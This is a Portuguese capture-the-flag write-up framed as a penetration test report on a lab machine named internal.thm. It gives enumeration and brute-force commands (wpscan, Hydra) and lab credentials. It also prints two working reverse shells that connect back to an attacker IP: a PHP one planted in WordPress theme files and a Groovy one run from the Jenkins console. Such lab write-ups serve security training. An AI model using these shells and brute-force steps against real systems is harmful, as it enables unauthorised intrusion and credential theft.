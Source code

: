 
Relatório de Teste de Penetração

Introdução do caso:

Fui atribuído a um cliente que solicitou a realização de um teste de penetração em um ambiente que será disponibilizado para produção em três semanas. O objetivo é identificar vulnerabilidades que possam comprometer a segurança do ambiente antes de sua publicação.



Escopo do Trabalho

O cliente solicitou que a avaliação fosse realizada considerando a perspectiva de um agente mal-intencionado, utilizando metodologia de caixa preta (black-box). As permissões fornecidas para o escopo incluíram:



Modificar o arquivo hosts local para refletir o link: internal.thm.

Utilização livre de quaisquer ferramentas ou técnicas.

Localizar e documentar todas as vulnerabilidades encontradas.

Submissão dos sinalizadores user.txt e root.txt.

Apenas o endereço IP da máquina atribuída está dentro do escopo.

Roleplay desabilitado.



O cliente também incentivou que este desafio fosse conduzido como um teste de penetração real, com elaboração de um relatório contendo: resumo executivo, análise de vulnerabilidades, detalhamento das explorações realizadas e sugestões de correção.



Reconhecimento Inicial

O reconhecimento da rede foi iniciado com o comando:

nmap -Pn -A <IP-alvo>



Este escaneamento furtivo e agressivo revelou as seguintes portas abertas:

22/tcp: Serviço SSH

80/tcp: Serviço HTTP (Apache2 HTTPD versão 2.4.29 - Ubuntu)



Ao acessar http://<IP-alvo>/:80, a resposta foi a página padrão de apresentação do Apache2.



Enumeração de Diretórios

Utilizei o gobuster para descobrir diretórios ocultos do site:

gobuster dir -u http://<IP-alvo>/ -w /usr/share/WordList/dirb/common.txt



Os seguintes caminhos foram identificados:

http://<IP-alvo>/blog/

http://<IP-alvo>/javascript/

http://<IP-alvo>/phpmyadmin/

http://<IP-alvo>/wordpress/

Notavelmente, /phpmyadmin/ e /wordpress/ apresentaram possibilidade de ataque por força bruta.



Ataque ao WordPress

Detectado que /blog era um WordPress, realizei ataque de força bruta com:

wpscan --url http://internal.thm/wordpress/ --password /usr/share/WordList.rockyou.txt --usernames admin --max-threads 60



Credenciais expostas com o ataque:

Usuário: admin

Senha: my2boys



Durante a análise do painel WordPress, encontrei um post privado contendo:

"

Don't forget to reset Wills credentials. 

william:arnold147

"



Na guia "Aparência", observei que os temas Twenty Nineteen e Twenty Twenty estavam desatualizados. Substituí arquivos do tema por um reverse shell em PHP:



<?php

// php-reverse-shell - Uma implementação de Reverse Shell em PHP

$ip = '127.0.0.1'; // IP do atacante

$port = 1234;  // Porta de escuta

$shell = '/bin/sh -i';

$sock = fsockopen($ip, $port);

$proc = proc_open($shell, [0=>['pipe','r'],1=>['pipe','w'],2=>['pipe','w']], $pipes);

stream_set_blocking($pipes[0], 0);

stream_set_blocking($pipes[1], 0);

stream_set_blocking($pipes[2], 0);

stream_set_blocking($sock, 0);

while (1) {

 fwrite($pipes[0], fread($sock, 2048));

 fwrite($sock, fread($pipes[1], 2048));

 fwrite($sock, fread($pipes[2], 2048));

}

?>



Com o Netcat escutando, bastou acessar a página contendo o shell para obter acesso remoto como www-data.



Exploração Local e Coleta de Credenciais

Com acesso como www-data, executei:

whoami

ls -la

pwd

cd /opt

cat wp-save.txt



Credenciais encontradas:

aubreanna:bubb13guM!@#123



Confirmei a existência do usuário via:

cat /etc/passwd



Acesso via SSH como Usuário Aubreanna

ssh aubreanna@<IP-alvo>



Autenticação bem-sucedida com a senha acima. 



Identifiquei:

ls -la

cat user.txt {primero objetivo completo}

cat jenkins.txt



O arquivo jenkins.txt indicava:

"Internal Jenkins service is running on IP:8080"



Tunelamento SSH para Jenkins



Criei um tunnel SSH:

ssh -L 1234:<ip>:8080 aubreanna@internal.thm



Acessando http://<ip>:1234, obtive a interface de login do Jenkins.





Força Bruta no Jenkins



Ataque com Hydra:

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 1234 -V -t 64 -f \http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"



Credenciais obtidas com o ataque usando hydra:

Usuário: admin

Senha: spongebob



Execução de Shell Reverso via Jenkins



Utilizando o console Groovy do Jenkins, executei:

String host="<meu-ip>"; int port=5555; String cmd="sh";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();

Socket s=new Socket(host,port);

InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();

OutputStream po=p.getOutputStream(), so=s.getOutputStream();

while(!s.isClosed()) {

 while(pi.available()>0) so.write(pi.read());

 while(pe.available()>0) so.write(pe.read());

 while(si.available()>0) po.write(si.read());

 so.flush(); po.flush(); Thread.sleep(50);

 try {p.exitValue(); break;} catch (Exception e){}

}; p.destroy(); s.close();



Shell reverso estabelecido com sucesso, onde novamente deixei o Nat Cat ativo em minha maquina para o acesso.





Escalada de Privilégio para Root



Dentro de /opt/note.txt, identifiquei:

"Will wanted these credentials secure behind the Jenkins container...

root:tr0ub13gum!@#123"



Acesso root via SSH:

ssh root@<IP-alvo>





Sinalizadores Capturados

user.txt: obtido com usuário aubreanna

root.txt: obtido após acesso como root



Considerações Finais

O ambiente avaliado apresentou vulnerabilidades críticas desde serviços expostos, credenciais fracas, uso de software desatualizado e falta de isolamento de aplicações internas. Todas as etapas demonstraram caminhos reais de comprometimento total da máquina.



Recomenda-se:

Atualização de CMS e plugins.

Uso de senhas robustas e autenticação multifator.

Isolamento de serviços internos.

Monitoramento de logs e tentativas de login.

Auditoria periódica de aplicações e serviços.

